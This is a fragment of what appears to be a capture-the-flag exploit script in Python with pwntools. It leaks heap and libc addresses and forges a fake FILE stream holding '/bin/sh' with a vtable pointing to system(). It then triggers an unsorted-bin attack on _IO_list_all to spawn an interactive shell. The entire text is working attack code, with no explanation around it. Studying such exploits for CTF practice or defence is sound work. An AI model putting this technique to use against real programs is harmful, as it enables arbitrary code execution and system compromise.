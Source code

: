 ```python
    log.info('_IO_list_all:'+hex(IO_list_all))
    
    
    info()
    io.recvuntil('A'*0x40)
    heap = u64(io.recvuntil('\n',drop=True).ljust(0x8,"\x00"))-0x10
    print hex(leak)
    io.recvuntil(')')
    io.sendline('1')
    io.recvuntil(':')
    io.sendline('A'*0x40)
    
    for i in range(0x3,0x9):
        add(0x20,str(i)*0x20)
    vtable_addr = heap+0x248
    payload = 0x2c*p64(0)
        #Fake File_stream in smallbin[4]
    fake_stream = ""
    fake_stream = "/bin/sh\x00"+p64(0x61)
    fake_stream += p64(0)+p64(IO_list_all-0x10)
    fake_stream = fake_stream.ljust(0xa0,'\x00')
    fake_stream += p64(heap+0x240)
    fake_stream = fake_stream.ljust(0xc0,'\x00')
    fake_stream += p64(1)+2*p64(0)+p64(vtable_addr)
    payload += fake_stream
    payload += p64(2)
    payload += p64(3)
    payload += p64(system_addr)
    gdb.attach(io)
    edit(0,payload)
    gdb.attach(io)
        # Trigger UnsortedBin Attack
        # malloc_printerr==>libc_message==>abort==>IO_flush_all_lockp
    io.recvuntil('Your choice :')
    io.sendline(str(1))
    io.recvuntil('Size of page :')
    io.sendline(str(0x10))
    io.interactive()

```